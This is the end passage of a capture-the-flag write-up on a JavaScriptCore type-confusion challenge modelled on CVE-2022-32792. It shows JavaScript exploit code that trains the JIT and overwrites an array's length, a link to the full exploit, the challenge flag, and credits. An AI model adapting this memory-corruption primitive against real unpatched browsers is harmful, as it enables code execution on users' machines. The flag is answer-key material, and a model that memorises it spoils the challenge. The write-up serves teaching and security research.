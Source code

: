 ```js
        // Overwrite length of array to 0x1337
        if (idx > 0) {
            arr[idx] = 0x1337;
        }
    }
}

noInline(hax);

var arr = new Array(5);
var dblarr = new Array(5);
var objarr = new Array(5);
arr.fill(1);
dblarr.fill(13.37);
objarr.fill({});

function trigger() {
    for (var i = 0; i < 100000; ++i) {
        hax(arr, 2);
    }
    hax(arr, 1);

}
```
The full exploit script can be found [here](https://gist.github.com/d4rk-kn1gh7/65651373a09b7e98c0c4a3a727204d59).

## Flag

`bi0s{typ3r_expl01ts_b3_ez_d33e42198c98}`

## Final Notes

StarLabs published [an excellent writeup](https://starlabs.sg/blog/2022/09-step-by-step-walkthrough-of-cve-2022-32792/) about a Pwn2Own exploit for which the bug is in a similar place, and I recommend checking out their blog post as well. I also got this challenge idea by auditing the patch for the same bug, CVE-2022-32792.

Thanks to [sherl0ck](https://twitter.com/sherl0ck__) for testing the challenge and proofreading the writeup, and shout-out to [dagger](https://twitter.com/0xdagger) for being the only person to solve the challenge during the CTF.

Want to try out the challenge? Our [CTF site](https://ctf.bi0s.in) is still up at the time of writing, but you can always download the handout [here](https://drive.google.com/file/d/1N15pe7jRbVWEwahUse71d4vHWqaXdrJc/view?usp=sharing).

I hope you guys enjoyed the challenge, I learnt a lot while trying to exploit it! Feel free to reach out to me on [twitter](https://twitter.com/_d4rkkn1gh7) for any questions/queries regarding this writeup.
